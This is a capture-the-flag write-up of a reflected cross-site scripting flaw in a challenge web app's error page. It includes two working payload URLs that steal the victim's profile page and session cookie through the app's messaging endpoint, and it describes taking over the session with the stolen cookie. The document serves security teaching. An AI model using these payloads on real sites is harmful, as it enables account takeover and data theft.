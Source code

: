 Obxssession
==============

Overview
--------
Obxsession is a server side rendered web application which was made to share conspiracy theories. While anybody can view published theories only registered users can write and release such. Additionally registered users are able to send private messages to each other.

Vulnerability
-------------
When rendering its error page the application would take two url parameters, `error` and `p`, and inject them into the html document to describe the error. This opens up what we call cross-site scripting attacks because now we can construct links that contain malicious JavaScript code as values for those parameters. Now any user clicking on this link will be taken to the error page where this code will be executed.

Exploitation
------------
After creating a new user I clicked my way through all the presented links and checked the their html source to get a feeling for the application. First I wanted to see if a script sent as a private message will be executed when viewed on the messages page by sending a simple `<scirpt>alert(1)</script>` to myself which didn't work because the brackets would be html escaped. Then I remembered that weird error page with its url parameters and since I knew lavish was crazy about new theories and would therefore click on any link leading to a page on obxssession my best option was a reflected XSS attack. After playing around with the error page a little I found that I could basically execute any JavaScript code I wanted to as long as I html escaped the right characters. The first link I built sent a request to get the victims profile page and then send that as a private message back to me. It worked instantly but little did I know that it would have been a lot easier to just send me his cookie as a message... So I wasted some time because I didn't find the flag in regular text content of the page and started searching for it in the base64 encoded image because all the flags so far were written in 1337. Only when going a little mad during that fruitless search it occurred to me that I can just get his cookie with a similar link, set it in my browser through the JavaScript console and browse the page like I was him. I felt really dumb when I found the flag in picture but on the other side happy as well.  

Here are the two links that I sent to lavish.

    http://obxssession.wutctf.space/error?p=<script>var%20req=new%20XMLHttpRequest();req.open('GET','http://obxssession.wutctf.space/profile',false);req.send(null);var%20bodyText=req.responseText;req.open('POST','http://obxssession.wutctf.space/send');req.setRequestHeader("Set-Cookie",document.cookie);req.setRequestHeader("Content-Type","application/x-www-form-urlencoded");req.send('receiver=10%26subject=exploit%26contents='%2BbodyText);</script>

    http://obxssession.wutctf.space/error?p=<script>var%20req=new%20XMLHttpRequest();req.open('POST','http://obxssession.wutctf.space/send');req.setRequestHeader("Set-Cookie",document.cookie);req.setRequestHeader("Content-Type","application/x-www-form-urlencoded");req.send('receiver=10%26subject=exploit%26contents='%2Bdocument.cookie);</script>

Solution
--------
I see no reason that an error page takes url parameters to render the error message in the page. This is not information that has to be provided by the user, the server can figure this out by itself. Removing this way of rendering error pages should fix this vulnerability.  
But of course there remains the question what if we really need this way of rendering a page. One option would be Content Security Policy which would disable inline JavaScript but I heard in today's lecture that this can be circumvented as well.
